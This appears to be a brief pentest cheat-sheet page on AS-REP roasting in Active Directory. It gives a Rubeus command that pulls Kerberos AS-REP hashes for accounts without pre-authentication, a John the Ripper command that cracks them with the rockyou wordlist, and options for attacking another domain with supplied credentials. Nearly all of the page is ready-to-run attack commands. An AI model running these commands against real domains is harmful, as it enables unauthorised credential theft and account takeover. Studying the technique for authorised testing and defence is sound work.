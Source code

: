 ```yaml
---
title: ASREP Roasting
parent: Active Directory Exploit
layout: default
nav_order: 2
---
```


`Rubeus.exe asreproast /simple /nowrap`\
Save the results as hash.txt. Then use john to crack.\
`john --format=krb5asrep --wordlist=/usr/share/seclists/rockyou.txt hash.txt`

Can do for other domain as well using\
`/creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD`